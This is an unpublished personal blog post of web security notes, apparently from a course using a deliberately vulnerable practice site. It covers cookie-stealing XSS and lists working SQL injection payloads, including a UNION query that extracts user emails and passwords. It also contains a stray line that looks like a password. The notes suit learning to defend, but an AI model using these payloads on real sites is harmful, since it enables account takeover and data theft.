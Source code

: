 ```yaml
---
layout: post.hbs

title: Security Notes
url: security-notes
description: ""

posted: 2016-01-27T13:30

post:
- post

published: false

categories:
  - "Web Development"
  - "Preprocessors"

---
```


{{#markdown}}
pw: 3ara

Securtity Risks on Account Page:

- Mixed Content on HTTPS
- Password cannot be longer than 10 characters


XSS Attack
Hijacking search forms, through inserting JS into the page.  Works on sites that use things like ?search=

Could make a request by using an img path to make a request (with any cookie info in).
- Can use document.cookie to get the auth code of anyone who clicks your link

Way to stop it = encoding for JS/HTML so that any text coming in gets encoded and not output as code.

- Check out the OWASP XXS Filter Evasion Cheat Sheet

window.location = 'http://lmgtfy.com/?q=I%E2%80%99m+a+dumbass+for+clicking+that+link';

'); console.log(document.cookie); $('#searchTerm').val('Hello


SQL Injection

http://hackyourselffirst.troyhunt.com/Make/8?orderby=supercarid

select * from supercar where makeid = 8 order by supercarid

havij

select * from sys.tables where makeid = 8 order by supercarid

select top 1 password*1 from userprofile where userid > 1

SELECT @@version

select * from supercar where makeid = 1 AND 1=2 UNION SELECT table_schema, table_name, 1 FROM information_schema.table

select * from supercar order by case when (select count (*) from userprofile) = 1 then powerkw else topspeedkm end desc


V12 'union select 0, concat (email, ' - ', password) COLLATE DATABASE_DEFAULT from userprofile --



Shodan – search engine for connected devices
Elmah – error logs
AsafaWeb

Wappalyser

HSTS preload

report-uri.io – shows CSP (allowed sources)
content-security-policy = -report-only (gives just a report)

{{/markdown}}
